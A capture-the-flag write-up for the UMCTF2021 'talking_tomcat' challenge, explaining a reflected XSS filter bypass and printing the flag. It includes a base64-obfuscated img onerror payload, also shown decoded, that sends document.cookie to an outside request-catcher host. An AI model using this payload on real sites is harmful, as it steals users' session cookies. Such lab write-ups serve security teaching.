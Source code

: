 # UMCTF2021 - talking_tomcat

- Write-Up Author: bluebear \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:MOCSCTF{byp@55_xss_f!lt3r}

## **Question:**
talking_tomcat

[main.py](./src/main.py)

## Write up

---

* This is reflected XSS.
* Review the source code, find a payload to bypass XSS sanitization.
* Final payload
```shell
http://13.75.78.108:31007/?xss=<>><img src='x' onerror=eval(atob('bmV3IEltYWdlKCkuc3JjPSdodHRwczovL2hvb2tiLmluL2t4VktMZ2tiVk9mck9Pb0xiRWo2Lz8nK2RvY3VtZW50LmNvb2tpZQ==')) />

eval(atob(btoa("new Image().src='https://hookb.in/kxVKLgkbVOfrOOoLbEj6/?'+document.cookie")))
```
>eval() excute the javascript  
atob() decode base64 strings  
btoa() encode string to base64  
new image() create image in HTML and create get request to xsshunter
* Use XSS hunter to retrieve the cookie
* You will get the flag **MOCSCTF{byp@55_xss_f!lt3r}**
![img](./img/2.png)